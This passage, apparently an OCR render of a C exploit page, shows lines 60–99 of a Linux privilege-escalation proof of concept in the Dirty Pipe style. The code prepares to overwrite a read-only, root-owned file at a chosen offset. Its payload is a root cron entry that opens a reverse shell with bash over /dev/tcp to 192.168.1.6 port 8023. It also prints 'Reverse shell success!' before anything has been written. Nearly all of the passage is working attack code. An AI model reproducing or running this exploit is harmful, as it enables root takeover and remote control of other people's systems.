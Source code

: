       60.         }
    
      61.   62.         char c;
    
      63.         while ((c = fgetc(f1)) != EOF)
    
      64.             fputc(c, f2);
    
      65.   66.         fclose(f1);
    
      67.         fclose(f2);
    
      68.   69.         loff_t offset = 4; // after the "root"
    
      70.         const char *const data = "\n* * * * * root /bin/bash -c 'exec bash -i &> /dev/tcp/192.168.1.6/8023 <&1'\n#";     // Reverse shell
    
      71.         printf("Reverse shell success!\n");
    
      72.         const size_t data_size = strlen(data);
    
      73.   74.         if (offset % PAGE_SIZE == 0) {
    
      75.                 fprintf(stderr, "Sorry, cannot start writing at a page boundary\n");
    
      76.                 return EXIT_FAILURE;
    
      77.         }
    
      78.   79.         const loff_t next_page = (offset | (PAGE_SIZE - 1)) + 1;
    
      80.         const loff_t end_offset = offset + (loff_t)data_size;
    
      81.         if (end_offset > next_page) {
    
      82.                 fprintf(stderr, "Sorry, cannot write across a page boundary\n");
    
      83.                 return EXIT_FAILURE;
    
      84.         }
    
      85.   86.         /* open the input file and validate the specified offset */
    
      87.         const int fd = open(path, O_RDONLY); // yes, read-only! :-)
    
      88.         if (fd < 0) {
    
      89.                 perror("open failed");
    
      90.                 return EXIT_FAILURE;
    
      91.         }
    
      92.   93.         struct stat st;
    
      94.         if (fstat(fd, &st)) {
    
      95.                 perror("stat failed");
    
      96.                 return EXIT_FAILURE;
    
      97.         }
    
      98.   99.         if (offset > st.st_size) {
    